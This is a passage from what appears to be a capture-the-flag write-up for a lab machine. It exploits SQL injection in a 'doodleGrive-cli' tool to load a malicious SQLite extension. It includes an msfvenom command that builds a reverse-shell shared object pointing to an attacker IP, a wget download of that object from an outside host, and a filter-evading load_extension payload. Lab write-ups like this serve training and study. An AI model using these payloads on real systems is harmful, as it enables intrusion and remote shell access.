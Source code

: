 ```
/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line 'UPDATE accounts_customer SET is_active=1 WHERE username="%s"';
```
Injecting SQL to bypass table checking is not helpful for us, but we might [use SQL injection for remote command execution](https://github.com/mpaolino/sqlite-execute-module). However, when checking tricks for this, we quickly find out we are limited in characters. Testing the character limit:
```
doodleGrive cli beta-2.2:
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 5
Enter username to activate account: 1234567890123456789012345678901234567890
Activating account for user '123456789012345678901234567890123456789'...
```
When supplying a string of 40 characters, only 39 is returned. We should assume that we can only work with a maximum of 39 characters. Our long UNION SELECT payload is not quite viable anymore. Additionally, several characters are not allowed:
```
doodleGrive cli beta-2.2:
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 5
Enter username to activate account: \/|';..
Activating account for user '..'...
```
Note that out of all the special characters provided in the username input, only dots were accepted and reflected. We can work around banned characters utilizing the [char function](https://www.w3resource.com/sqlite/core-functions-char.php), but working around the character limit also requires creativity. Instead of combining our payload using `AND JOIN` or other ideas, we can simplify it with `+`. First, when we must create our malicious shared object file, which will behave as our linux equivalent to a `dll` loading:
```
┌──(kali㉿kali)-[~/Documents/Drive/sqlite_ex/sqlite-execute-module]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.58 LPORT=4444 -f elf-so -o a.so
```
Next, we must download it to the same file location as `doodleGrive-cli`:
```
tom@drive:~$ wget 10.10.14.21/a.so
--2023-10-16 02:46:13--  http://10.10.14.21/a.so
Connecting to 10.10.14.21:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 476 [application/octet-stream]
Saving to: ‘a.so’

a.so                          100%[==============================================>]     476  --.-KB/s    in 0s

2023-10-16 02:46:13 (20.4 MB/s) - ‘a.so’ saved [476/476]
```
The small file name is really important, as we must call the characters in our `load_extension` payload. Unless specified, the file extension .so will be appended automatically. This is important for us as we need to minimize the payload characters where possible. For my file, I will want to do load_extension(./a). Looking up the characters on the [ascii table](https://www.asciitable.com/), my payload will look like this:
```
"+load_extension(char(46,47,97))--
```